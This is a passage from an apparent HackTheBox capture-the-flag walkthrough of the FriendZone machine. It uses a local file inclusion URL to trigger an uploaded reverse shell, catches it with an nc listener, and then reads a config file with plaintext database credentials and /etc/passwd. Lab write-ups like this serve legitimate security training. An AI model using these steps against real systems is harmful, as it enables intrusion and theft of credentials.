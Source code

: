 Then, let's load it using the following url:
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/rshell

I opened a listener, and it soon captured and spawn a reverse shell!

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000                                            
listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.123] 42108
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 14:37:30 up  6:05,  0 users,  load average: 0.17, 0.13, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```



# Shell as `friend`

### Enumeration

At first, I investigated webroot directory (`/var/www/`)

```bash
www-data@FriendZone:/var/www$ ls

admin       friendzoneportal       html             uploads
friendzone  friendzoneportaladmin  mysql_data.conf


www-data@FriendZone:/var/www$ cat mysql_data.conf

for development process this is the mysql creds for user friend
db_user=friend
db_pass=Agpyu12!0.213$
db_name=FZ
```

I found `mysql_data.conf` file and it contains db credential : `friend` : `Agpyu12!0.213$`

```bash
www-data@FriendZone:/var/www$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
```